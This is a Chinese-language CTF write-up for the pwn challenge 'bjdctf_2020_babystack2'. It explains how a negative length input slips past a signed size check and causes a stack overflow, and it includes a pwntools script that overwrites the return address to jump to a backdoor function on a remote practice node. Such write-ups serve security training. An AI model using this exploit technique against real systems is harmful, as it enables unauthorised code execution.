 # 知识点

整数溢出



# 题目分析

1. 查看保护情况，64位程序，开启NX保护。

       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x400000)

2. 拖入IDA分析，题目要求我们输入name的长度，nbytes是size_t，64位下为unsigend long类型。但是本题4个字节，为unsigned int。

   题目会对输入的长度校验，要求转为有符号数后小于等于10。我们可以给他一个负数，绕过检查。

   ![ida1](./isset/ida1.png)

3. 整数溢出绕过检查后，read会读取很大的字符串到buf中造成栈溢出漏洞。

   继续分析发现题目提供了后门函数，我们可以直接ret2text到后门函数。

   ![ida2](./isset/ida2.png)





# EXP

注意：可能由于libc版本问题，在本地整数溢出程序直接异常退出。

```python
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')

io = process('./bjdctf_2020_babystack2')
io = remote('node4.buuoj.cn', '29894')

backdoor = 0x400726

io.sendline('-1')

payload = 'A' * 0x10 + 'deadbeef' + p64(backdoor)
io.send(payload)

io.interactive()
```

